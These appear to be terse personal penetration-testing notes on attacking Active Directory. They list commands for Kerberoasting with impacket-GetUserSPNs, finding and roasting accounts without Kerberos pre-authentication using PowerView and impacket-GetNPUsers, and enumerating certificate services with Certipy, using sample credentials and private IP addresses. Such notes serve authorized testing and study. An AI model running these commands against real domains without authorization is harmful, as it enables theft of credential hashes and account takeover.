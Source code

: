 # Active Directory & Domain Controller

```
impacket-GetUserSPNs domain-name/domain-user:password -dc-ip x.x.x.x -request
```

```
impacket-GetUserSPNs xyz.com/alice:bubbles -dc-ip 192.168.111.155 -request
```

![[Pasted image 20230906222705.png]]

*Service Principal Name (SPN)*

*Ticket Granting Service (TGS)*

*Ticket Granting Ticket (TGT)*

### List vuln users using PowerView

```
Get-DomainUser -PreauthNotRequired -verbose
```

```
impacket-GetNPUsers $domain-name/ -dc-ip $ip -usersfile usernames.txt
```

https://github.com/ly4k/Certipy

```
certipy find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128
```

```
